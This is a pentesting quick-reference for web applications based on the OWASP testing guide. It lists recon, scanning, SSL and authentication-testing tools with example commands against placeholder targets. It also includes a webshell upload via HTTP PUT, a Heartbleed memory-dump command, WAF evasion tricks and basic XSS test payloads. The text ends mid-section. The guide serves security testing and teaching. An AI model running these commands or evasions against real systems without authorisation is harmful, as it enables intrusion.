



# Introduction

This document is a "quick intro" that enumerate a few tests that can be done while performing penetration testing on web application.
I took the [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/) which is a comprehensive guide to testing the security of web applications and web services.

## Information Gathering

### Information Leakage

Comments and metadata review should be done in order to determine if any information is being leaked.

References: [WSTG-INFO-05 - Review Webpage Comments and Metadata for Information Leakage](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/05-Review_Webpage_Comments_and_Metadata_for_Information_Leakage.html)

### Fingerprinting

Identify the web application, web application framework, technology and version to determine known vulnerabilities and the appropriate exploits to use during testing.
Methods to indentify web application are:

- HTTP Headers
- Cookies: A relatively reliable way to identify a web application is by the application-specific cookies.
- HTML Source Code: For instance **HTML comments** that directly lead to application disclosure.
- Specific Files and Folders: Every application has its own specific **file and folder structure** on the server.

References: [WSTG-INFO-08 - Fingerprint Web Application Framework](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/08-Fingerprint_Web_Application_Framework.html)
  
#### whatweb

[WhatWeb](https://github.com/urbanadventurer/WhatWeb) identifies websites.

Its goal is to answer the question, “What is that Website?”. WhatWeb recognises web technologies including content management systems (CMS), blogging platforms, statistic/analytics packages, JavaScript libraries, web servers, and embedded devices.

WhatWeb has over 1700 plugins, each to recognise something different. WhatWeb also identifies version numbers, email addresses, account IDs, web framework modules, SQL errors, and more

```bash
whatweb victim.com # Scan victim.com
whatweb -l # List the plugins supported
```

Whatweb has different aggression levels (**-a**) which are:

- Stealthy (1): Makes one HTTP request per target. Also follows redirects.
- Aggressive (3): If a level 1 plugin is matched, additional requests will be made.
- Heavy (4): Makes a lot of HTTP requests per target. Aggressive tests from all plugins are used for all URLs.

#### Wappalyser

[Wappalyzer](https://www.wappalyzer.com/) is a browser extension, that can be added to ZAP, which find out the technology stack of any website.

#### BlindElephant

The [BlindElephant](https://github.com/lokifer/BlindElephant) Web Application Fingerprinter attempts to discover the version of a (known) web application by comparing static files at known locations against precomputed hashes for versions of those files in all all available releases. The technique is fast, low-bandwidth, non-invasive, generic, and highly automatable.
*Note that BlindElephant is not installed by default on Kali Linux*

```bash
BlindElephant.py -l
```

*Note that this tool is not maintain since multiple years*

#### CMS: General

[droopescan](https://github.com/droope/droopescan) is a plugin-based scanner that aids security researchers in identifying issues with several CMS.

Supported CMS are:

- SilverStripe
- Wordpress
- Drupal

```bash
droopescan scan CMS -u victim.org
```

#### CMS: Adobe Experience Manager

Adobe Experience Manager (AEM), now called  is an "enterprise grade" content management system sold and maintained by Adobe Systems.

[aem-hacker](https://github.com/0ang3el/aem-hacker) is a set of tools to identify vulnerable Adobe Experience Manager (AEM) webapps.

- aem_hacker.py:
  - Scans AEM webapp for misconfigurations and vulnerabilites.
  - Tries to bypass the AEM dispatcher.
  You will need to do extra manual work to detect of findings are exploitable.

  ```bash
  python3 aem_hacker.py -u https://victim.com --host OUR_VPS
  ```

- aem_discoverer.py:
  - Script allows to scan urls and find AEM webapps among them.
  - Tries to bypass the AEM dispatcher.

   ```bash
  python3 aem_discover.py --file URL.txt --worker NUMBER_OF_WORKER
  ```

- aem_enum.py: Automate usernames and secrets grabbing

  ```bash
  python3 aem_enum.py -u https://victim.com
  ```

- aem_ssrf2rce.py, aem_server.py, response.bin: Helps to exploit SSRF in SitecatalystServlet and AutoprovisioningServlet as RCE. It should work on AEM before AEM-6.2-SP1-CFP7 running on Jetty (default installation).

[AEM RCE OSGI bundle](https://github.com/0ang3el/aem-rce-bundle) allows to get RCE when you have access to Felix Console.
May be usefull when you have admin credentials

For more information on pentesting Adobe Experience Manager refer to the resource [LevelUp_0x03_AEM.pdf](../Resources/Web/LevelUp_0x03_AEM.pdf)

#### CMS: Wordpress

[wpscan](https://github.com/wpscanteam/wpscan) is a free, for non-commercial use, black box WordPress security scanner written for security professionals and blog maintainers to test the security of their WordPress websites.
Here are some of the checks:

- The version of WordPress installed and any associated vulnerabilities
- What plugins and themes are installed and any associated vulnerabilities
- Username enumeration
- Backed up and publicly accessible wp-config.php files

When enumerating the WordPress version, installed plugins or installed themes, you can use three different "modes", which are:

- passive
- aggressive
- mixed

```bash
wpscan --url example.com -e vp,vt --random-user-agent --plugins-detection mixed --api-token # For all plugins and themes with known vulnerabilities using random User-Agent
wpscan --url example.com -e ap,at --random-user-agent --plugins-detection mixed # all plugins (ap) and all themes (at)
```

[wprecon](https://github.com/blackbinn/wprecon) is a tool for wordpress exploration, fully developed in golang.

```bash
wprecon -u example.com
```

#### CMS: Drupal

[Drupwn](https://github.com/immunIT/drupwn) claims to provide an efficient way to gather drupal information.

```bash
# Enumerates User, Node, Module, Default files and themes
drupwn --mode enum --target victim.com --users --nodes --modules --dfiles --themes
```

#### CMS: Joomla

[JoomScan](https://github.com/OWASP/joomscan) is an open source project, developed with the aim of automating the task of vulnerability detection and reliability assurance in Joomla CMS deployments.

```bash
joomscan.pl -u URL # Performs "defaults checks"
joomscan.pl -u URL --enumerate-components # Enumerates installed components
```

### Spidering/Crawling

Spidering is the technique og following all link **available** on a webste and download each content available.

By spidering, we will gather the potential attack surface in order to identify likely areas of weakness.
We will also understanding the structure of the application is paramount.

*Note that automated scans could fail because the site is complex and has issues with multiple requests*

- Requests:
  - Identify where GETs are used and where POSTs are used.
  - Identify all parameters used in GET and POST requests.
  - Check hidden parameters within the POST request (Through a proxy like Burp or ZAP)
- Responses:
  - Identify where new cookies are set (Set-Cookie header), modified, or added to.
  - Identify where there are any redirects 3xx, 400, 403 and 500 status codes.

[unfurl](https://github.com/tomnomnom/unfurl) pull out bits of URLs provided on stdin

```bash
# Extract the domains from the URLs
cat urls.txt | unfurl domains
# Output duplicate values
cat urls.txt | unfurl --unique domains
# Extract the paths from the URLs
cat urls.txt | unfurl paths
# Extract the string keys from the URLs
cat urls.txt | unfurl keys
# Extract the String Key/Value Pairs from the URLs
cat urls.txt | unfurl keypairs
```

References:

- [WSTG-INFO-06 - Identify Application Entry Points](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/06-Identify_Application_Entry_Points.html)
- [WSTG-INFO-07 - Map Execution Paths Through Application](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/07-Map_Execution_Paths_Through_Application.html)

#### Wget

You can use [wget](https://www.gnu.org/software/wget/manual/wget.html) to perform automated spidering

```bash
wget --wait=0.5 --random-wait -r http://VICTIM.COM -l 10 -e robots=off --no-check-certificate
```

- **-r**: Turn on recursive retrieving.
- **-l**: Specify recursion maximum depth level depth
- **--convert-links**: After the download is complete, convert the links in the document to make them suitable for local viewing.
- **--page-requisites**: This option causes Wget to download all the files that are necessary to properly display a given HTML page.
- **--random-wait**: This option causes the time between requests to vary between 0.5 and 1.5 \* *wait* seconds, where wait was specified using the *--wait* option
- **--wait**: Wait the specified number of seconds between the retrievals.

You could search for comment recursively after by doing the following

```bash
# Grep "<!-" comments on .html files
find . -type f -name "*.html" -print0 | xargs -0 grep "<\!-"
# Grep "// " and "<!-" comments on .html, .js and .php files
find . -type f \( -iname \*.html -o -iname \*.js -o -iname \*.php \) -print0 | xargs -0 grep "// \|<\!-"
# Grep path .js and .php files
find . -type f \( -iname \*.js -o -iname \*.php \) -print0 | xargs -0 | grep -aoP "(?<=(\"|\'|\`))\/[a-zA-Z0-9_?&=\/\-\#\.]*(?=(\"|\'|\`))" | sort -u 
# Use tree to review the scraped content
ls -R | grep ":$" | sed -e 's/:$//' -e 's/[^-][^\/]*\//--/g' -e 's/^/ /' -e 's/-/|/' 
# Build a List of Target Company Employees
grep -r '@' www.victim.com/*  > emails.txt ; egrep -o '[A-Za-z0-9._]+@[A-Za-z0-9.]+\.[a-zA-Z]{2,4}' emails.txt > clean_list.txt ; sort -u clean_list.txt > uniq_email.txt
# Extract metadata from local files
exiftool -r * | egrep -i "Author|Creator|Email|Producer|Template" | sort -u 
```

For more option please refer to this [link](https://www.gnu.org/software/wget/manual/wget.html#Recursive-Retrieval-Options)

*Note that wget will adheres to the robots.txt rules except if you specify -e robots=off*

#### ZAP

The OWASP ZAP Proxy "Spider" module allows you to automatically discover new resources (URLs) on a particular Site. It begins with a list of URLs to visit, called the seeds, which depends on how the Spider is started.

##### Passive Scanning

ZAP by default passively scans all HTTP messages (requests andresponses) sent to the web application being tested.

Passive scanning does not change the requests nor the responses in any way and is therefore **safe to use**.

This means that it is more safe than active tools on production workload.
Also, it has less chances to raise Web Application Alerts.

##### Technology detection

The Technology Detection add-on uses the Wappalyzer rules to detect the technologies used by applications.

##### "Forced browse" mode

In Forced browse, you can perform HTTP Bruteforce using a dictionnary list to find files and directories
*Options* -> *Forced Browse*

#### FOCA Pro

[FOCA](https://github.com/ElevenPaths/FOCA) is an excellent website reconnaissance tool with lots of interesting features and capabilities.

FOCA allows you to spiders a website and extra data such as email addresses, names from the result.

#### JSA (Javascript Security Analysis)

[JSA](https://github.com/w9w/JSA) is a program for javascript analysis during web application security assessment.

JSA looks for javascript files inside the first, second, and third-level javascript files.

It uses:

- [Wayback Machine](https://archive.org/web/) through [gau](https://github.com/lc/gau): Fetches known URLs from the the Wayback Machine
- [subjs](https://github.com/lc/subjs): Getches javascript files from a list of URLS or subdomains.
- [hackrawler](https://github.com/hakluke/hakrawler): Go web crawler designed for easy, quick discovery of endpoints and assets within a web application.
- [GitHub](https://github.com/): Perform GitHub searches as it could give some unique results *(it is time-consuming considering GitHub API rate-limit)*

```bash
# Process a specific js file
echo "https://victim.com/file.js" | python3 jsa.py
# Pulling out js files from a website and process them
echo "https://victim.com" | subjs | python3 jsa.py
# Massive and parallel scanning using parallel
cat http_s_hosts.txt | subjs | parallel -j 20 'echo "{}" | python3 jsa.py'
```

#### jsubfinder

[jsubfinder](https://github.com/hiddengearz/jsubfinder) searches webpages for javascript & analyzes them for hidden subdomains and secrets,

```bash
# Massive and parallel scanning using parallel
cat domains.txt | httpx --silent | jsubfinder -s
```

### Nikto

Nikto is a tool that can be used to detect vulnerabilities based on default content within a website.
Some of the test within his databases are the result of botnet request towards sandbox environments.

It will examine a web server to find potential problems and security vulnerabilities, including:

- Server and software misconfigurations
- Default files and programs
- Insecure files and programs
- Outdated servers and programs

```bash
nikto -h host
```

Nikto will list vulnerability ID using the OSVDB (http://osvdb.com/).
The OSVDB is a vulnerability repository specifically for open source software such as TikiWiki, with detailed information on a wide variety of products.

Note that Nikto is very intrusive

Nitko can be used to perform [WSTG-CONF-01](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/01-Test_Network_Infrastructure_Configuration.html), [WSTG-CONF-02](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/02-Test_Application_Platform_Configuration.html), [WSTG-CONF-03](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/03-Test_File_Extensions_Handling_for_Sensitive_Information.html)
*Note that it is also done using Nmap in [Network101.md](../Network101.md)*


### Unreferenced Files, Interfaces and Folders

While most of the files within a web server are directly handled by the server itself, it isn’t uncommon to find unreferenced or forgotten files that can be used to obtain important information about the infrastructure or the credentials.

Also, administrator interfaces may be present in the application or on the application server.

Here below, we will perform [Forced browsing](https://owasp.org/www-community/attacks/Forced_browsing) where the aim is to enumerate and access resources that are not referenced by the application, but are still accessible.

There are two tools that we can use based on our needs

|Feature|feroxbuster|gobuster|
|-|-|-|
|Allows recursion|Yes|No|
|Extract Links|Yes|No|
|accept wordlists via STDIN|No|Yes|

[gobuster](https://github.com/OJ/gobuster) is a tool used to brute-force URIs, DNS subdomains, Open Amazon S3 buckets and Virtual Host names on target web servers.

Here are some options that may be usefull to know:

- **-k**: Skip TLS certificate verification
- **-b 403,404**: While not showing 403,404 pages
- **--discover-backup**: Upon finding a file search for backup files
- **-c**: Use this to specify any cookies that you might need (simulating auth).

[Feroxbuster](https://github.com/epi052/feroxbuster) is a tool used to brute force combined with a wordlist to search for unlinked content in target directories.
The default wordlist that will be used is */usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt*

Here are some options that may be usefull to know:

- **--depth**: Recursion depth
- **--extract-links**: Extract links from response body

```bash
# Gobuster
gobuster dir -u https://target/ -b 403,404 --timeout 30s -t 3 -k -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt # Enumerate files within the given directory
gobuster dir -u https://target/ -b 403,404 --timeout 30s -t 3 -k -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --discover-backup # Enumerate potential backup files within the given directory
gobuster dir -u https://target/ -b 403,404 --timeout 30s -t 3 -k -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
gobuster dns -d *domainname* -t 8 -r 8.8.8.8 -k -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt # Enumerate subdomains within the given domain names

# feroxbuster
./feroxbuster -u  https://victim.com -k -r --depth 6 --extract-links

```

*Note that within Apache HTTP Server, on systems with multiple users, each user can be permitted to have a web site in their home directory using the UserDir directive.*

*Visit the URL http://example.com/~**username**/ and you could potentially get content out of the home directory of the user "username", out of the subdirectory specified by the UserDir directive.*

References:

- [WSTG-CONF-04 - Backup and Unreferenced Files for Sensitive Information](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/04-Review_Old_Backup_and_Unreferenced_Files_for_Sensitive_Information.html)
- [WSTG-CONF-05 - Enumerate Infrastructure and Application Admin Interfaces](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/05-Enumerate_Infrastructure_and_Application_Admin_Interfaces.html)
- [WSTG-CONF-09 - Test File Permission](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/09-Test_File_Permission.html)

#### Cloud Storage

Cloud storage services facilitate web application and services to store and access objects in the storage service.

[sandcastle](https://github.com/0xSearches/sandcastle) is a Python script for AWS S3 bucket enumeration, formerly known as bucketCrawler.

```bash
sandcastle.py [-h] -t targetStem [-f inputFile]
```

Then, you can dump using [AWSBucketDump](https://github.com/jordanpotti/AWSBucketDump) which is a tool to quickly enumerate AWS S3 buckets to look for loot. It's similar to a subdomain bruteforcer but is made specifically for S3 buckets

```bash
python AWSBucketDump.py -l BucketNames.txt -g interesting_Keywords.txt -d 1
```

References: [WSTG-CONF-11 - Test Cloud Storage](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/11-Test_Cloud_Storage.html)

*If you don't know, now you know : [HTTP Status Codes](https://docs.microsoft.com/en-us/windows/win32/services/service-user-accounts)*

- **1xx**: Informational Codes
- **2xx**: Client Request Successfull
- **3xx**: Request Redirected
- **4xx**: Client Request Incomplete
  - **403** - Forbidden: Access to the requested resource is forbidden
  - **404** - Not Found: The requested document does not exist on the server
- **5xx**: Server Errors

## Configuration and Deployment Management Testing

### HTTP

#### WAF

There may be a Web Application Firewall that could either block or log our requests.
Multiple reason could cause that:

- User-Agent: Some WAFs blocks default User-Agents of Pentesting tools
- Requests: All WAFs are designed to block requests under certain conditions.

##### Detection

[WhatWaf](https://github.com/Ekultek/WhatWaf) is an advanced firewall detection tool who's goal is to give you the idea of "There's a WAF?".

```bash
./whatwaf -u URL --burp FILE-PATH --pa USER-AGENT
```

[wafw00f](https://github.com/EnableSecurity/wafw00f) is a security tool to perform fingerprinting on web applications and detect any web application firewall in use.
How it works:

- Step 1: Sends a *normal* HTTP request and analyses the response.
  &rarr; This identifies a number of WAF solutions.
- Step 2: If the WAF is not detected, it sends a number of *potentially malicious* HTTP requests.
  &rarr; Using simple logic, it may deduce which WAF it is.
- Step 3: It analyses the responses previously returned and uses another simple algorithm to guess if a WAF or security solution is actively responding to our attacks.

```bash
wafw00f https://VICTIM.COM --findall # Find all WAFs which match the signatures, do not stop testing on the first one
```

If there is a AWS CloudFront you can try to hijack it using [CloudFrunt](https://github.com/MindPointGroup/cloudfrunt)

##### Avoidance  

Here are some WAF evasion tricks
If you need to do a RCE within linux, you can replace spaces by **${IFS}**

- Use null byte (%00) prior to any characters that the filter is blocking.
- Add *blank character* like new line, spaces or tab
- Perform *String Concatenation*
  > EXEC('SEL' + 'ECT 1')
- Hex Encoding
  > where name = 'root' -> where name = 726F6F74
- Strings Bypassing
  > %53eLEct
  
Resources:

- NAXSI:
  - <https://www.synacktiv.com/en/publications/bypassing-naxsi-filtering-engine.html>

##### HTTP Methods

HTTP offers a number of methods that can be used to perform actions on the web server. Many of theses methods are designed to aid developers in deploying and testing HTTP applications.

```bash
nmap -p 443 --script http-methods IP
```

References: [WSTG-CONF-06 - Test HTTP Methods](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/06-Test_HTTP_Methods)

###### Testing for HTTP PUT Method

Leveraging the **PUT** method an attacker may be able to place arbitrary and potentially malicious content, into the system which may lead to remote code execution, defacing the site or denial of service.

The HTTP PUT request method creates a new resource or replaces a representation of the target resource with the request payload.

```bash
nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'
curl --upload-file webshell.php -v --url http://192.168.126.129/test/test.txt
```

We can try by simply change the **GET** */index.html HTTP/1.1* to **PUT** */index.html HTTP/1.1*

If it is successfull, we may be able to upload a shell, depending on which scripting language is running on the web-server
It can also be used to bypass access controls

References: [WSTG-CONF-06 - Test HTTP Methods](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/06-Test_HTTP_Methods)

###### Testing for Arbitrary HTTP Methods (HTTP Verb Tampering)

Many Web server authentication mechanisms use verb-based authentication and access controls.<br>
Such security mechanisms include access control rules for requests with specific HTTP methods.

In some Web servers–for example, it is possible to bypass the access control mechanism by using arbitrary character strings for HTTP methods.

Here are some examples:

- [PROPFIND](https://docs.microsoft.com/en-us/previous-versions/office/developer/exchange-server-2003/aa142960(v=exchg.65)): Exchange Server 2003
- [PROPPATCH](https://docs.microsoft.com/en-us/previous-versions/office/developer/exchange-server-2003/aa142976(v=exchg.65)): Exchange Server 2003

References: [WSTG-CONF-06 - Test HTTP Methods](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/06-Test_HTTP_Methods)

###### Testing for HEAD Access Control Bypass

If a page has a security constraint such that it would normally force a 302 redirect to a log in page or forces a log in directly. Try to bypass is using a HEAD method.

```bash
nmap -sV --script http-method-tamper <target>
```

References: [WSTG-CONF-06 - Test HTTP Methods](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/06-Test_HTTP_Methods)

###### Testing for HTTP Method Overriding

Some web frameworks provide a way to override the actual HTTP method in the request by emulating the missing HTTP verbs passing some custom header in the requests.

To test this, where restricted methods such as PUT or DELETE return a "405 Method not allowed", replay the same method with the addition of the alternative headers for HTTP method overriding, and observe how the system responds.

Some examples are:

- X-HTTP-Method
- X-HTTP-Method-Override
- X-Method-Override

Wordlists/SecLists/Miscellaneous/web/http-request-headers/http-request-headers-fields-large.txt

[headi](https://github.com/mlcsec/headi) is a customisable and automated HTTP header injection tool.

```bash
headi -u https://victim.com/
```

References: [WSTG-CONF-06 - Test HTTP Methods](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/06-Test_HTTP_Methods)

###### Testing for Cross-Site Tracing Potential

The combination of HTTP TRACE method and XSS is called cross-site tracing (XST) attack.

The **TRACE** or **TRACK** HTTP methods, intended for testing and debugging, instructs the web server to reflect the received message back to the client. This method, while apparently harmless, can be successfully leveraged in some scenarios to steal legitimate users’ credentials.

This is done within tools such as Nikto and Nmap, or using the following curl command

```bash
curl -X TRACE - H: "TestXST: Thomas/Test" http://VICTIM.COM
```

Here is an example of how to perform it with Burp Suite



It could be used as a method to steal user’s cookies via Cross-site Scripting (XSS) even if the cookie has the "HttpOnly" flag set and/or exposes the user’s Authorization header.

###### Test RIA Cross Domain Policy

Rich Internet Applications (RIA) have adopted Adobe's crossdomain.xml policy files to allow for controlled cross domain access to data and service consumption using technologies such as Oracle Java, Silverlight, and Adobe Flash.

A cross-domain policy file specifies the **permissions** that a web client such as Java, Adobe Flash, Adobe Reader, etc. use to access data across different domains.

Test for the following files:

- <http://www.victim.com/crossdomain.xml>
- <http://www.victim.com/clientaccesspolicy.xml>

References: [WSTG-CONF-08 - Test RIA Cross Domain Policy](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/08-Test_RIA_Cross_Domain_Policy.html)

###### Test File Permission

### SSL

#### testssl

[testssl](https://testssl.sh/) is a free command line tool which checks a server's service on any port for the support of TLS/SSL ciphers, protocols as well as recent cryptographic flaws and more.

```bash
testssl.sh -e -E -f -p -S -P -U IP --htmlfile testssl.html
```

Options:

- **-e**: Checks each local cipher remotely
- **-E**: Checks those per protocol
- **-p**: Checks TLS/SSL protocols (including SPDY/HTTP2)
- **-f**: Checks (perfect) forward secrecy settings
- **-U**: Tests all known vulnerabilities
- **-S**: Displays the server's default picks and certificate info
- **-P**: Displays the server's picks: protocol+cipher

#### SSLyze

[SSLyze](https://github.com/nabla-c0d3/sslyze) is a fast and powerful SSL/TLS scanning library.
It takes around 5 secondes to scan a website.

```bash
sslyze victim.com
```

#### SSLScrape

[SSLScrape](https://github.com/cheetz/sslScrape) is a scanning tool for scaping hostnames from SSL certificates.

```bash
sslScrape.py CIDR
```

#### OWASP O-Saft

[O-Saft](https://github.com/OWASP/O-Saft) is an easy to use tool to show informations about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations.

It’s designed to be used by penetration testers, security auditors or server administrators.

*Note that this tool is still highly in development phase but looks promising*

#### Heartbleed (CVE-2014-0160)

Heartbleed is a security bug in the OpenSSL cryptography library, which is a widely used implementation of the Transport Layer Security (TLS) protocol.

The vulnerability is classified as a buffer over-read, a situation where more data can be read than should be allowed.

```bash
nmap --script=ssl-heartbleed -p 443 # Test to see if it's vulnerable
python heartbleed-poc.py -n 200 -f dump.bin victim.com # Dump memory scan, will make 200 requests and put the output in the binary file dump.bin
```

References: [WSTG-CRYP-01 - Testing for Weak Transport Layer Security](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/09-Testing_for_Weak_Cryptography/01-Testing_for_Weak_Transport_Layer_Security.html)

### Padding oracle attacks

An Oracle, in cryptography, is a system that will perform given cryptographic operations on behalf of the user, which is the attacker.

In cryptography, padding is any of a number of distinct practices which all include adding data to the beginning, middle, or end of a message prior to encryption.

A padding oracle is a function of an application which decrypts encrypted data provided by the client and leaks the state of the validity of the padding after decryption.

The existence of a padding oracle allows an attacker to decrypt encrypted data and encrypt arbitrary data without knowledge of the key used for these cryptographic operations.
This can lead to leakage of sensible data or to privilege escalation vulnerabilities, if integrity of the encrypted data is assumed by the application.

Methods:

1) Identify encrypted messages that rely on padding.
2) Attempt to break the padding of the encrypted messages and analyze the returned error messages for further analysis.

In order to do that, we usually use [Poracle](https://github.com/iagox86/Poracle)

References: [WSTG-CRYP-02 - Testing for Padding Oracle](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/09-Testing_for_Weak_Cryptography/02-Testing_for_Padding_Oracle.html)

#### Authentication Testing

##### Testing for Bypassing Authentication Schema

[byp4xx](https://github.com/lobuhi/byp4xx) is a script to bypass "403 Forbidden" responses with well-known methods discussed in #bugbountytips

```bash
./byp4xx.sh https://www.victim.com/test
```

References: [WSTG-ATHZ-02 - Testing for Bypassing Authorization Schema](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/05-Authorization_Testing/02-Testing_for_Bypassing_Authorization_Schema)

##### HTTP Authentication

> / / / To Do

###### Basic

- Those are usually in Base64
- There is no implementation of Account Lockout
- Plaintext authentication
- ....

Appache usts .htaccess
IIS uses local acocunts

We can bruteforce it.
Some can be bypass by simply doing a POST

```bash
curl -X POST http://vulnerable.com/
```

###### Digest

> / / / To Finish

Update of "Basic".

- Uses MD5
  &rarr; Haschat

There has been an updated version of digest (RFC 2617) which added:

- Quality Of Protection flag: Indicates what "quality of protection" the client has applied to the message. If present, its value MUST be one of the alternatives the server indicated it supports in the WWW-Authenticate header.
These value affect the computation of the request-digest.
- Client Nonce flag:

However:

- Digest as no Account Lockout mechanism
- No logout option (until the browser is closed)
- ...

Still not secure for today's world

The main difference between **Basic** and **Digest** is that the passwiord is never sent over the wire.

If we get a valid session, we can crack it easily

###### IWA

Integrated Windows Authentication is a authentication method used between Microsoft Internet Information Services, Internet Explorer, and other Active Directory aware applications.

It is typically seen within Intranet websites.

To attack this authentication method, we need to take advantages of a compromised client machine (cc CVE-2019-1040 and CVE-2019-1019)

###### Formed Based

> / / / To Finish

This is the most common nowadays.
We can try SQLi

Another possibility is to try Side-Channel Attacks.
Using a "timing side-channel attack", we could get maybe get username.
Previous know examples are:

- **CVE-2003-0637**:Product uses a shorter timeout for a non-existent user than a valid user, which makes it easier for remote attackers to guess usernames and conduct brute force password guessing.
- **CVE-2004-1602**: FTP server responds in a different amount of time when a given username exists, which allows remote attackers to identify valid usernames by timing the server response.
*Note that it is the same idea as Time-based SQL Injection*

For this, we will use the OWASP Zap Fuzzer module which show the time the request took.

###### *If you don't know, now you know: [Side-Channel Attacks](https://en.wikipedia.org/wiki/Side-channel_attack)*

A **side-channel attack** is any attack based on information gained from the implementation of a **computer system (CPU, RAM,GPU,...)**, rather than weaknesses in the implemented algorithm itself (e.g. cryptanalysis and software bugs). Timing information, power consumption, electromagnetic leaks or even sound can provide an extra source of information, which can be exploited.

The rise of Web 2.0 applications and software-as-a-service has also significantly raised the possibility of side-channel attacks on the web.

Two of the most known are "cache side-channel attack" where:

- **Meltdown (CVE-2017-5754)**: Allows a unauthorized rogue process to read all memory on Intel x86 microprocessors, IBM POWER processors, and some ARM-based microprocessors.
- **Spectre (CVE-2017-5753 & CVE-2017-5715)**: An attacker may be able to extract information about the private data using a timing attack.

###### Session ID Prediction

If authentication is done through (session IDs), if the session ID generation is predictable, we can leverage that.

Within Burp Suite or OWASP Zap, send multiple requests and see if the session ID is predictable

Reference: [WSTG-ATHN-04 - Testing for Bypassing Authentication Schema](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema.html)

#### Input Validation Testing

##### Cross-Site Scripting (XSS)

Cross-Site Scriping has emerged when it was possible to control frames within a web page, through injecting code.
By doing this, we were *crossing** the boundaries of the given website.

Cross-Site Scriping has the purppose of either injecting code, usually HTML or JavaScript, in a user's Web browser.

A Cross-Site Scriping can be caused by ny user-controllable input could be vulnerable to an XSS.
Some entry points are:

- POST parameters
- URL query parameters
- HTTP Headers
  - User-Agent
  - Referer
  - Cookies

The goals are usually the following:

- Steal cookies
- ...

###### Type 2 - Reflected XSS

Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

Reflected attacks are delivered to victims via **another route**, such as in an e-mail message, or on some other website.

When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser.

Rational: We have to trick the victim to click on a specially crafted request which points to the vulnerable website


Source: <https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a>

###### Type 1 - Stored XSS

Stored attacks are those where the injected script is **permanently** stored on the target servers, such as in a database, in a message forum, visitor log, comment field, etc.

The victim then retrieves the malicious script from the server when it requests the stored information.


Source: <https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/>

###### Type 0 - DOM-Based XSS

DOM-based cross-site scripting is the de-facto name for XSS bugs that are the result of active browser-side content on a page, typically JavaScript, obtaining user input and then doing something unsafe with it, leading to the execution of injected code.

DOM-based XSS vulnerabilities can be executed in many instances without the server being able to determine what is actually being executed. This may make many of the general XSS filtering and detection techniques impotent to such attacks.

###### Finding XSS

We can either finding them manually or using automated tools

Manually:

- Analyse all input fields such as search form, register form, comment/feedback section, ...

```html
<script>alert(1);</script>
"><script>alert(1);</script>
<a href="javascript:alert(1)">javascript:alert(1)</a>
<!-- Tag Attribute Value -->
